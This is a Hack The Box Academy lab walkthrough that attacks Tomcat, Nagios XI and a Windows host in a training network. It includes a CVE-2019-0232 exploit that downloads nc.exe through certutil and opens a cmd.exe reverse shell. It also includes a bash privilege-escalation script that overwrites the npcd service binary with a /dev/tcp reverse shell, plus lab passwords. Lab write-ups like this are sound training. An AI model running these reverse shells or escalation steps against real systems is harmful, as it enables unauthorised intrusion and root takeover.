

# [Attacking Common Applications](https://academy.hackthebox.com/module/details/113)

## Skills Assessment - Attacking Common Applications

### Part I

> During a penetration test against the company `Inlanefreight`, you have performed extensive enumeration and found the network to be quite locked down and well-hardened. You come across one host of particular interest that may be your ticket to an initial foothold. Enumerate the target host for potentially vulnerable applications, obtain a foothold, and submit the contents of the flag.txt file to complete this portion of the skills assessment.

**Resources**:
- [CVE-2019-0232 - Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (RCE)](https://github.com/jaiguptanick/CVE-2019-0232)

Questions:
1. What vulnerable application is running? `Tomcat`
2. What port is this application running on? `8080`
3. What version of the application is in use? `9.0.0.M1`
4. Exploit the application to obtain a shell and submit the contents of the `flag.txt` file on the Administrator desktop. `f5576***************************`

#### Web Application Discovery and Enumeration

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 10.129.53.134 -T4

[SNIP]

PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8000/tcp  open  http-alt
8009/tcp  open  ajp13
8080/tcp  open  http-proxy
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSVC -p80,8000,8009,8080 10.129.53.134 -T4

[SNIP]

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-title: Freight Logistics, Inc
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
8000/tcp open  http    Jetty 9.4.42.v20210604
|_http-server-header: Jetty(9.4.42.v20210604)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1 📌
|_http-title: Apache Tomcat/9.0.0.M1 📌
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### Attacking Tomcat CGI

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -u http://10.129.53.134:8080/cgi/FUZZ.bat -w /usr/share/dirb/wordlists/common.txt -ic -t 30

[SNIP]

cmd                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 131ms]
```

```
┌──(nabla㉿kali)-[~]
└─$ git clone https://github.com/jaiguptanick/CVE-2019-0232.git && cd CVE-2019-0232
```

```
┌──(nabla㉿kali)-[~/CVE-2019-0232]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```
┌──(nabla㉿kali)-[~/CVE-2019-0232]
└─$ vim CVE-2019-0232.py

[SNIP]

host='10.129.53.134'#add host to connect
port='8080'#add port of host {default:8080}
server_ip='10.10.15.186'#server that has nc.exe file to get reverse shell
server_port='8000'
nc_ip='10.10.15.186'
nc_port='1337'
url1 = host + ":" + str(port) + "/cgi/cmd.bat?" + "&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F" + server_ip + ":" + server_port + "%2Fnc%2Eexe+nc.exe"
url2 = host + ":" + str(port) + "/cgi/cmd.bat?&nc.exe+" + server_ip + "+" + nc_port + "+-e+cmd.exe"
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 CVE-2019-0232.py
```

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.53.134] 49690
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi>
```

```
C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi> type C:\Users\Administrator\Desktop\flag.txt

f5576*************************** 📌
```

---

### Part II

> During an external penetration test for the company Inlanefreight, you come across a host that, at first glance, does not seem extremely interesting. At this point in the assessment, you have exhausted all options and hit several dead ends. Looking back through your enumeration notes, something catches your eye about this particular host. You also see a note that you don't recall about the `gitlab.inlanefreight.local` vhost.

vHosts needed for these questions:
- `gitlab.inlanefreight.local`

Questions:
1. What is the URL of the WordPress instance? `http://blog.inlanefreight.local`
2. What is the name of the public GitLab project? ``
3. What is the FQDN of the third vhost? `monitoring.inlanefreight.local`
4. What application is running on this third vHost? (One word). `Nagios`
5. What is the admin password to access this application? `oilaKglm7M09@CPL&^lC`
6. Obtain reverse shell access on the target and submit the contents of the `flag.txt` file. `afe37***************************`

#### Web Application Discovery and Enumeration

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.201.90\tinlanefreight.local' | sudo tee -a /etc/hosts

10.129.201.90	inlanefreight.local
```

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://inlanefreight.local/ -H 'Host: FUZZ.inlanefreight.local' -ic -t 20 -fs 46166

[SNIP]

blog                    [Status: 200, Size: 50116, Words: 16140, Lines: 1015, Duration: 72ms]
monitoring 📌           [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 48ms]
gitlab                  [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 7ms]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.201.90\tblog.inlanefreight.local gitlab.inlanefreight.local monitoring.inlanefreight.local' | sudo tee -a /etc/hosts

10.129.201.90	blog.inlanefreight.local gitlab.inlanefreight.local monitoring.inlanefreight.local
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://blog.inlanefreight.local | grep 'WordPress'

[SNIP]

<meta name="generator" content="WordPress 5.8" /> 📌
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 10.129.201.90 -T4

[SNIP]

PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown
8060/tcp open  aero
8180/tcp open  unknown
9094/tcp open  unknown
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSVC -p80,443,8060,8180,9094 10.129.201.90 -T4

[SNIP]

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Shipter\xE2\x80\x93Transport and Logistics HTML5 Template 
443/tcp  open  ssl/http   Apache httpd 2.4.41 ((Ubuntu))
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
| ssl-cert: Subject: commonName=10.129.201.90/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2021-09-02T01:49:48
|_Not valid after:  2031-08-31T01:49:48
|_http-title:  Shipter\xE2\x80\x93Transport and Logistics HTML5 Template 
8060/tcp open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: 404 Not Found
8180/tcp open  http       nginx
|_http-title: GitLab is not responding (502)
| http-robots.txt: 54 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /help /s/ /-/profile /-/ide/ 
|_/*/new /*/edit /*/raw
9094/tcp open  unknown
```

#### Gitlab - Discovery and Enumeration

```
┌──(nabla㉿kali)-[~]
└─$ firefox http://10.129.201.90:8180/ &
```


```
┌──(nabla㉿kali)-[~]
└─$ curl http://monitoring.inlanefreight.local

Your session has timed out.
```

```
┌──(nabla㉿kali)-[~]
└─$ curl http://monitoring.inlanefreight.local -L

[SNIP]

<!-- Produced by Nagios XI. Copyright (c) 2008-2025 Nagios Enterprises, LLC (www.nagios.com). All Rights Reserved. -->

[SNIP]

<h2>Nagios XI</h2>
        <p align="center">
            <a href="https://www.nagios.com/">www.nagios.com</a><br>
            Copyright (c) 2009-2025 Nagios Enterprises, LLC<br>
        </p>
```


```sql
postgres=# CREATE USER nagiosadmin WITH PASSWORD 'oilaKglm7M09@CPL&^lC';
```

#### Attacking Nagios

```
┌──(nabla㉿kali)-[~]
└─$ firefox http://monitoring.inlanefreight.local &
```


```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 1337

listening on [any] 1337 ...

[CONTINUE]
```





```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.201.90] 44600
bash: cannot set terminal process group (31169): Inappropriate ioctl for device
bash: no job control in this shell
nagios@skills2:~$ 
```

```
nagios@skills2:~$ whoami
nagios
```

```
nagios@skills2:~$ sudo -l

[SNIP]

User nagios may run the following commands on skills2:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 7331

listening on [any] 7331 ...

[CONTINUE]
```

```bash
#!/bin/bash

# Create npcd script
echo "#!/bin/bash" > /tmp/npcd
echo "bash -c 'bash -i >& /dev/tcp/10.10.15.186/7331 0>&1'" >> /tmp/npcd

# Grant executable permissions on the npcd script
chmod +x /tmp/npcd 2>/dev/null

# Stop the npcd service
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd

# Replace original npcd script
cp /tmp/npcd /usr/local/nagios/bin/npcd 2>/dev/null

echo "[+] Start Up your listener"
sleep 1
echo "[+] nc -lvnp 7331"

sleep 15

echo "[+] Expect your shell noobies"

# start service to recieve reverse shell
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd

sleep 5

echo "[+] nice job hacker"
```

```
nagios@skills2:~$ chmod +x exploit.sh && ./exploit.sh
```

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.201.90] 58704
bash: cannot set terminal process group (38274): Inappropriate ioctl for device
bash: no job control in this shell
root@skills2:/#
```

```
root@skills2:/# whoami
root
```

```
root@skills2:/# find / -iname '*flag*' 2> /dev/null | grep '.txt'
/usr/local/nagiosxi/html/admin/f5088a862528cbb16b4e253f1809882c_flag.txt
```

```
root@skills2:/# cat /usr/local/nagiosxi/html/admin/f5088a862528cbb16b4e253f1809882c_flag.txt
afe37*************************** 📌
```

---

### Part III

> During our penetration test our team found a Windows host running on the network and the corresponding credentials for the Administrator. It is required that we connect to the host and find the `hardcoded password` for the MSSQL service.

RDP to with user `Administrator` and password "xcyj8izxNVzhf4z".

Questions:
1. What is the hardcoded password for the database connection in the `MultimasterAPI.dll` file? `D3veL*******`

#### Attacking Applications Connecting to Services

```
┌──(nabla㉿kali)-[~]
└─$ xfreerdp /v:10.129.95.200 /u:Administrator /p:'xcyj8izxNVzhf4z' /dynamic-resolution /drive:shared,~/shared +clipboard /cert-ignore
```

```
PS C:\Users\Administrator> Get-ChildItem -Recurse -Path C:\ -Include "MultimasterAPI.dll" -File -ErrorAction SilentlyContinue

    Directory: C:\inetpub\wwwroot\bin

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/9/2020   4:13 AM          13824 MultimasterAPI.dll
```

```
PS C:\Users\Administrator> C:\Tools\dnSpy\dnSpy.exe C:\inetpub\wwwroot\bin\MultimasterAPI.dll
```


---
---
